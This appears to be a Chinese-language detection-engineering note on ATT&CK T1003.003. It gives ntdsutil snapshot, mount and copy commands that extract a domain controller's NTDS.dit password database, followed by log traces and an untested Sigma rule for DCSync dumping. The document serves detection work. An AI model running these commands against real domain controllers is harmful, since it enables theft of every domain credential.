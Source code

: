 # T1003-003-win-使用ntdsutil获得NTDS.dit文件

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。

卷影复制

secretsdump.py

使用内置的Windows工具ntdsutil.exe

调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2008+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```bash
ntdsutil snapshot  "activate  instance ntds"  create  quit quit
```

### Ntdsutil挂载域快照

```bash
ntdsutil snapshot  "mount {GUID}" quit  quit
```

### 复制快照

```bash
copy C:\$SNAP_201212082315_VOLUMEC$\windows\NTDS\ntds.dit  c:\ntds.dit #注意路径大小写问题
```

### 卸载快照

```bash
ntdsutil snapshot  "unmount {GUID}" quit  quit
```

### 删除快照

```bash
ntdsutil snapshot  "delete {GUID}" quit  quit

ntsutil.exe +PWPR(Passcape Windows Password Recovery)
```

## 检测日志

windows 安全日志

## 测试复现

![ntds1](https://s2.ax1x.com/2019/12/26/lAeIM9.png)

![ntds2](https://s2.ax1x.com/2019/12/26/lAeOPO.png)

## 测试留痕

windows 安全日志、4688进程创建、Ntsutil.exe进程名称。

![event_log](https://s2.ax1x.com/2019/12/26/lAuVDs.png)

## 检测规则/思路

```yml
title: Dumping ntds.dit remotely via DCSync
id: 51238c62-2b29-4539-ad75-e94575368a12
description: ntds.dit retrieving using synchronisation with legitimate domain controller using Directory Replication Service Remote Protocol
author: Teymur Kheirkhabarov, oscd.community
date: 2019/10/24
modified: 2019/11/13
references:
    - https://twitter.com/gentilkiwi/status/1003236624925413376
    - https://gist.github.com/gentilkiwi/dcc132457408cf11ad2061340dcb53c2
    - https://www.slideshare.net/heirhabarov/hunting-for-credentials-dumping-in-windows-environment
tags:
    - attack.credential_access
    - attack.t1003
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624
        ComputerName: '%DomainControllersNamesList%'
    selection2:
        IpAddress: '%DomainControllersIpsList%'
    selection3:
        EventID: 4662
        ComputerName: '%DomainControllersNamesList%'
        SubjectLogonId: '%SuspiciousTargetLogonIdList%'
        Properties|contains: 
            - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
            - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
    condition: write TargetLogonId from selection1 (if not selection2) to list %SuspiciousTargetLogonIdList%; then if selection3 -> alert
falsepositives:
    - Legitimate administrator adding new domain controller to already existing domain
level: medium
status: experimental
```

### 建议

检测规则未经过实际验证，谨慎使用。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

NTDS.dit密码快速提取工具

<https://www.secpulse.com/archives/6301.html>

域hash值破解的总结经验

<https://www.cnblogs.com/backlion/p/6785639.html?utm_source=itdadao&utm_medium=referral>

